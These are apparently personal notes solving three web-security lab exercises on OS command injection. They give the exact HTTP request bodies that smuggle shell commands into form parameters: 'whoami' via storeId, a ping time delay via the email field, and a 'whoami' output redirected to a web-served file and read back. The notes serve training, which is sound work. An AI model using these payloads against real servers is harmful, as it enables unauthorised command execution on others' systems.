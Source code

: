 
# Lab: OS command injection, simple case

Change the storeId to:
```
productId=1&storeId=2%26whoami%26
```


# Lab: Blind OS command injection with time delays
Add a ping dalay injection to the email parameter in order to execute linux shell command during the submit feedback

From:
```
csrf=rhjQbHdiNxnIt2k3noaWaGVhsmRC5eeS&name=asas&email=asas%40aas&subject=dsd&message=sdsdsd
```
To:
```http
csrf=rhjQbHdiNxnIt2k3noaWaGVhsmRC5eeS&name=asas&email=asas%40aas$(ping+-c+10+127.0.0.1)&subject=dsd&message=sdsdsd
```

# Lab: Blind OS command injection with output redirection
Inject the write into the email
```http
POST /feedback/submit HTTP/1.1
...
csrf=NgUfcXL1JL8wMtVIvLsEGjFwx3ApBMr5&name=asdf&email=asdff%40asdf$(whoami+>+/var/www/images/whoami.txt)&subject=afd&message=asdf
```
After that you should be able to intercept somme GET for real image in the site and change the path to your txt file to retreive it
```http
GET /image?filename=whoami.txt HTTP/1.1
```

